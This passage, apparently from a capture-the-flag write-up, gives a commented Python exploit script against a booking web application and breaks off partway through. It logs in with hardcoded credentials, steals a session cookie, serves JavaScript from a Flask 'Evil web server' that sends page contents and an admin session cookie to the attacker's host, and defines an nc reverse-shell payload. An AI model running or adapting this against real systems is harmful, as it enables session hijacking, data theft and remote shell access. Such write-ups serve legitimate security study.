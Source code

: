 # Final Code
The final exploit is shown below. Note that comments have been added to it to make it easier to read and understand. 

{% highlight python linenos %}
#!/usr/bin/python3
import argparse, base64, click, logging, contextlib, flask, ipaddress, re, requests, socket, sys, threading, time

#Parse command line arguments
parser = argparse.ArgumentParser()
parser.add_argument('RHOST',help='Remote host')
parser.add_argument('RPORT',help='Remote port')
parser.add_argument('LHOST',help='Local IP address for reverse shell payload')
parser.add_argument('LPORT',help='Local port for reverse shell payload')
args = parser.parse_args()

LHOST = args.LHOST
LPORT = args.LPORT
RHOST = args.RHOST
RPORT = args.RPORT
URLBASE = "http://"+RHOST+":"+RPORT+"/"

#Initialize thread locks
wsLock = threading.Lock()
wsLock.acquire()
rsLock = threading.Lock()
rsLock.acquire()

#Send a login request
data = {"username":"RickA","password":"nevergonnagiveyouup"}
headers = {"User-Agent":"Linux"}
r = requests.post(URLBASE+"login", data=data, headers=headers, allow_redirects=False)
cookie = r.headers['set-cookie']

#Get the session cookie from the response
m = re.search("connect\.sid=(.*?);",cookie)
cookieName = "connect.sid"
cookieValue = m.group(1)

#Send a request for the /agent page to get a booking ID
headers['Cookie'] = cookieName+"="+cookieValue
proxies = {"http":"http://127.0.0.1:8080"}
r = requests.get(URLBASE+"agent", headers=headers, proxies=proxies)
m = re.search("""href=\"/vac/([0-9,a-z,\-]*?)\">""",r.text)
bookingID = m.group(1)

#Initialize web server files
XJS = '''req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/''' + bookingID + '''",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://''' + LHOST + '''/leak?x="+btoa(req1.responseText),false);
req2.send();
'''

RS = '''#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ''' + LHOST + " " + LPORT + " >/tmp/f"

#Configure a flask web server
app = flask.Flask("Evil web server")

@app.route('/x.js', methods=['GET'])
def xjs():
    print("[*] Sending JavaScript to leak the admin session cookie")
    return flask.Response(XJS, mimetype='application/javascript')
